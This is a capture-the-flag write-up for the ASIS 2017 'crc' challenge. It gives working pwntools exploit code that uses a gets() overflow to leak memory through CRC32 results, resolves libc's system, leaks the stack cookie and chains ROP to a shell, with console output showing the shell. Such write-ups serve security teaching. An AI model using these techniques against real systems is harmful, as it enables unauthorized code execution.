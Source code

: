 ```yaml
---
layout: post
title: ASIS 2017 Quals CRC
comments: true
category: ctf
tags: ctf, asis2017, pwnable, dynelf, leak, crc32
---
```


This is a write-up of the challenge crc from ASIS Quals 2017 CTF

## The challenge

The challenge is a 32-bits binary, which can calculate the crc32 of data we send it.

The challenge has stack cookies.

```text
**********WELCOME TO THE CRC32 CALCULATOR**********

------------------------
 1) Calculate a CRC
 2) Exit
------------------------
 Choice:
```

## The Solution

The challenge boils down to the following;

```c
char buf[100];
char *buf_ptr = &buf;
unsigned int size;
...
while(True){
    size = get_userinput_number()
    if(size > 99){ too much data }
    gets(buf);
    calcCrc(buf_ptr, size);
}
```

So the problem is that the `gets` can overwrite the pointer `buf_ptr`,
and so give us the crc32 of any byes in the memory.
This obviously leads to a memory leak.

### Reliable memory leak

```python
from pwn import *

reverse_crc = {crc.crc_32(p8(i)): p8(i) for i in range(2**8)}

r = process("./crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d")

@MemLeak
def leak(addr):
    if "\n" in p32(addr): return ""
    #Choice:
    r.sendline("1")
    #What is the length of your data:
    r.sendline("1")
    #Please send me 1 bytes to process:
    r.sendline("A"*100 + p32(addr))
    r.recvuntil("CRC is: ")
    crc = int(r.recvline(), 16)
    return reverse_crc[crc]
```

This leak is not good enough because the address from which we are leaking must not contain newlines.
However it demonstrates the vulnerability quite well.

We can fix the problem with most of the newlines if we simple leak 2 bytes instead and do a little workaround address with newlines:

```python
from pwn import *

reverse_crc = {crc.crc_32(p16(i)): p16(i) for i in range(2**16)}

r = process("./crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d")

@MemLeak
def leak(addr):
    f = 0
    if p32(addr)[0] == "\n":
        log.info("Leaking from address with newline... Fixing"
        f = 1
        addr -= 1
    #Choice:
    r.sendline("1")
    #What is the length of your data:
    r.sendline("2")
    #Please send me 2 bytes to process:
    r.sendline("A"*100 + p32(addr))
    r.recvuntil("CRC is: ")
    crc = int(r.recvline(), 16)
    return reverse_crc[crc][f:]
```

### Exploitation

Now we can simply use the pwntools pointer chasing magic module `DynELF` to leak symbols from libc:

```python
e = ELF("./crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d")
d = DynELF(leak, elf=e)

system = d.lookup("system", lib="libc.so")
log.info("system = 0x%x", system)

```

This gives us the address of `system`. Next thing we can do is find our buffer on the stack, leak the cookie.

```python
environ = d.lookup("environ", lib="libc.so")
log.info("environ = 0x%x", environ)

stack = leak.d(environ)
for i in range(0x400):
    if leak.d(stack-i) == 0x41414141: break
stack = stack - i
log.info("stack = 0x%x", stack)

cookie = leak.d(stack+8)
log.info("cookie = 0x%x", cookie)
```


Then if we put `/bin/sh\x00` in the buffer we overflow we can even find it at `binsh = stack-100+4`
and finally we can exploit the function `get_userinput_number` because it uses `gets` and ROP to win:

```python
rop = flat(["A"*40, cookie, "B"*12, system, 0x41414141, binsh])

assert "\n" not in rop

r.sendline(rop)

r.sendline("echo SHELL")
r.recvuntil("SHELL\n")

r.interactive()
```

## Final exploit
{% gist 7c32ef9277fac5930070322dff644380 %}

```console
$ python doit.py
[+] Calculating CRC reverse lookup table: Done
[!] Couldn't find relocations against PLT to get symbols
[*] '/home/user/crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
[+] Starting local process './crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d': Done
[+] Loading from '/home/user/crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d': 0xf7792930
[+] Resolving 'system' in 'libc.so': 0xf7792930
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
[*] system = 0xf75de3e0
[+] Resolving 'environ' in 'libc.so': 0xf774ade0
[*] environ = 0xf774ade0
[*] stack = 0xffb67624
[*] cookie = 0xf92ee300
[*] Switching to interactive mode
$ cowsay "I got shell"
 _____________
< I got shell >
 -------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
$
```
